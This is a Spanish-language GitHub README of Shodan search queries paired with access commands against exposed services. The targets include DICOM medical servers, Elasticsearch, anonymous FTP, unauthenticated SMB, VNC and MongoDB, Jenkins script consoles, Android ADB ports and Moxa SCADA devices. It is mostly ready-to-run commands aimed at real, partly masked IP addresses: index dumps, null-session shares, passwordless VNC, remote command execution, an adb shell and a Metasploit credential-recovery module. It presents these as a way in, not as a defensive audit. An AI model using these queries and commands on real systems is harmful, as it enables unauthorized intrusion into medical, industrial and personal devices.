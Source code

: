 # Dorks Shodan 2023

Recopilación de Querys de shodan con scripts personalizados :)

# DICOM 
El estándar DICOM (Digital Imaging and Communications in Medicine) es un estándar utilizado en la industria médica para la gestión, almacenamiento y transmisión de imágenes médicas, como radiografías, tomografías computarizadas (TC), imágenes de resonancia magnética (IRM), entre otras.

```sh
"DICOM Server Response" port:104
```
```sh
python3 Dicom.py
```

![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/29f923e0-fbde-4526-a199-fbf71cb5319f)

# Elasticsearch
Elasticsearch es un motor de búsqueda y análisis distribuido, de código abierto, basado en Lucene. Se utiliza para indexar, buscar y analizar grandes volúmenes de datos en tiempo real. Está diseñado para manejar datos no estructurados o semiestructurados y es especialmente útil para casos de uso en los que se requiere búsqueda y análisis de texto, logística, monitoreo y análisis de registros, y más

```sh
port:"9200" elastic: "Total Size:"
```
```sh
curl -X GET "http://192.x.x.153:9200/_cat/indices?v"
curl -X GET "http://192.x.x.153:9200/.monitoring-beats-7-2023.08.30"
curl -X GET "http://192.x.x.153:9200/_search?pretty=true"
```

```sh
python3 elastic.py -t 192.x.x.153
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/25dadba2-91d2-4bc6-9a91-6c238120d557)


## Access FTP Anonymous
El acceso FTP anónimo es una forma de conectarse a un servidor FTP sin proporcionar credenciales de autenticación específicas.

```sh
"220" "230 Login successful." port:21
230 'anonymous@' login ok 
"Anonymous+access+allowed" port:"21"
```

```sh
shodan search :"220" "230 Login successful." port:21 --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt
```
```sh
python3 ftp.py -l ips.txt
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/59945aef-9d89-4c2d-bbc6-a876ad1ed68d)


# Authentication Disabled SMB
La autenticación SMB (Server Message Block) sin credenciales, también conocida como acceso SMB anónimo, permite a los usuarios acceder a recursos compartidos en una red sin proporcionar nombres de usuario ni contraseñas. Esto puede ser útil para acceder a carpetas compartidas que se han configurado para permitir el acceso anónimo.

```sh
"Authentication: disabled" port:445 product:"Samba" 
```
```sh
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/da427f4b-0f7b-4f2b-9b0e-326da7e78420)

## Access authentication disabled VNC
Esto significa que el servidor VNC está configurado para permitir conexiones sin requerir autenticación.

```sh
"authentication disabled" port:5900,5901
```
```sh
vncviewer -passwd none 91.x.x.238
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e610141-1ccf-4388-92c5-c824704ca9c0)


## Access authentication disabled 

```sh
"MongoDB Server Information" port:27017 -authentication
"Set-Cookie: mongo-express=" "200 OK"
```
```sh
mongo --host 139.x.x.5
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/69a9b077-8f19-4c3b-8032-0b6387c93c8b)

## Access Jenkins

```sh
http.component:"jenkins"
title:"Dashboard [Jenkins]"
html:"Dashboard Jenkins"
```
```sh
add /script 
print "uname -a".execute().text
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/96d36829-5013-4bdb-b543-f095a0835dc3)


## Access devices ADB

```sh
shodan search :Android Debug Bridge port:5555 "Name:" --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt 
 ```
```sh
python3 adb.py   
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/da53ed42-de05-4842-9662-5ee57eaf6269)

```sh
adb devices
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e05b583-b684-4b27-b42d-c10b5312d788)

```sh
adb -s 59.x.x.112:5555 shell
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/e2bf07c6-157a-4fac-b4e5-f317e6ced25f)

## Access devices SCADA Moxa 

```sh
"Moxa Nport Device" Status: Authentication enabled port:"4800"
"Moxa Nport Device" Status: Authentication disabled port:"4800"
shodan search --separator , --fields ip_str,port,data "Moxa Nport" | awk '{print $1,$2,$3}' FS=":" | tr '\\', ' ' | awk '{print $1,$7,$8}' | column -t | ccze -A
```

```sh
use auxiliary/admin/scada/moxa_credentials_recovery
set FUNCTION CREDS
set rport 4800
set rhosts 212.x.x.14
run
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/54060261-80cc-4893-b134-b3fe2e0bc62c)


```sh
telnet 212.x.x.14
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/5f79db0b-aff5-4790-8c9a-59f0b84c59d4)





## OS Windows Obsolete

```sh
os:"Windows 5.0" – Windows 2000; support end 2010.
os:"Windows 5.1" – Windows XP; support end 2014.
os:"Windows 2003" – Windows Server 2003; support end 2015.
os:"Windows Vista"– Windows Vista; support end 2017.
os:"Windows 2008" – Windows Server 2008; support end 2020.
os:"Windows 7" – Windows 7; support end 2020.
os:"Windows 8" – Windows 8; support end 2016.
os:"Windows 2011" – Windows Home Server 2011; support end 2016.
os:"Windows 8.1" – Windows 8.1; support end 2018.
os:"Windows 2012" – Windows Server 2012; support end 2018.
```



